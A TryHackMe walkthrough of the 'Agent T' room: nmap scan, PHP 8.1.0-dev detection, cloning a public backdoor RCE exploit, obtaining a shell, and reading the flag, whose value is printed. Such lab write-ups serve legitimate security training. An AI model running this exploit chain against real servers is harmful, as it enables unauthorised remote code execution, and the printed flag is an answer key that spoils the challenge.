



# Agent T - TryHackMe Walkthrough

**URL**: [Agent T - TryHackMe](https://tryhackme.com/r/room/agentt)

**Target IP**: 10.10.25.62

## Description

Agent T uncovered this website, which looks innocent enough, but something seems off about how the server responds...

After deploying the vulnerable machine attached to this task, please wait a couple of minutes for it to respond.

**Task**: Find the flag.

---

## Step 1: Scan the Target IP using Nmap

We start by scanning the target IP to gather information about open ports and services. We'll use the `-A` option to enable OS detection, version detection, script scanning, and traceroute.

```bash
┌──(root㉿neo)-[~]
└─# nmap -A 10.10.25.62
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-28 10:13 IST
Stats: 0:03:32 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
Nmap scan report for 10.10.25.62
Host is up (0.17s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
80/tcp filtered http
Too many fingerprints match this host to give specific OS details
Network Distance: 5 hops

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   39.72 ms  10.17.0.1
2   ... 4
5   161.19 ms 10.10.25.62

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 689.75 seconds
```

**Analysis**:
- Port 80 is filtered, indicating it is likely protected by a firewall or similar mechanism.
- The scan shows the host is up and accessible.

## Step 2: Explore Port 80

Next, we navigate to the webpage hosted on port 80 at [http://10.10.25.62/](http://10.10.25.62/).


The webpage looks normal with nothing special. To gather more information about the web technologies used, we utilize the Wappalyzer browser extension.



**Analysis**:
- Wappalyzer reveals the PHP version used by the server is 8.1.0. 

## Step 3: Search for Exploits

We search for any known exploits for PHP version 8.1.0. 



During our search, we find a GitHub repository that contains an exploit for PHP 8.1.0-dev remote code execution.



**URL**: [PHP 8.1.0-dev Backdoor Remote Code Execution](https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git)

## Step 4: Clone the Repository

We clone the repository to our local machine to use the exploit.

```bash
┌──(root㉿neo)-[~]
└─# git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
Cloning into 'php-8.1.0-dev-backdoor-rce'...
remote: Enumerating objects: 241, done.
remote: Counting objects: 100% (239/239), done.
remote: Compressing objects: 100% (113/113), done.
remote: Total 241 (delta 128), reused 232 (delta 124), pack-reused 2
Receiving objects: 100% (241/241), 1.66 MiB | 1.44 MiB/s, done.
Resolving deltas: 100% (128/128), done.
                                                                                                                                                                                              
┌──(root㉿neo)-[~]
└─# cd php-8.1.0-dev-backdoor-rce 
                                                                                                                                                                                              
┌──(root㉿neo)-[~/php-8.1.0-dev-backdoor-rce]
└─# ls
backdoor_php_8.1.0-dev.py  docs  README.md  revshell_php_8.1.0-dev.py
```

## Step 5: Run the Exploit

We execute the Python script `backdoor_php_8.1.0-dev.py` from the cloned repository.

```bash
┌──(root㉿neo)-[~/php-8.1.0-dev-backdoor-rce]
└─# python backdoor_php_8.1.0-dev.py                                     
Enter the host url:
http://10.10.25.62/

Interactive shell is opened on http://10.10.25.62/ 
Can't access tty; job control turned off.
$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor
```

**Analysis**:
- The exploit successfully opens an interactive shell on the target server.

## Step 6: Explore the File System

We begin exploring the file system to locate any sensitive files or the flag.

```bash
$ cd /home

$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor

$ cd /root

$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor
```

No significant files found so far. Let's use the `find` command to search for the flag.

## Step 7: Find the Flag

Using the `find` command to search for files named `flag.txt`.

```bash
$ find / -name flag.txt 2>/dev/null
/flag.txt

$ cat /flag.txt
flag{4127d0530abf16d6d23973e3df8dbecb}
```

**Flag Found**:
- `flag{4127d0530abf16d6d23973e3df8dbecb}`

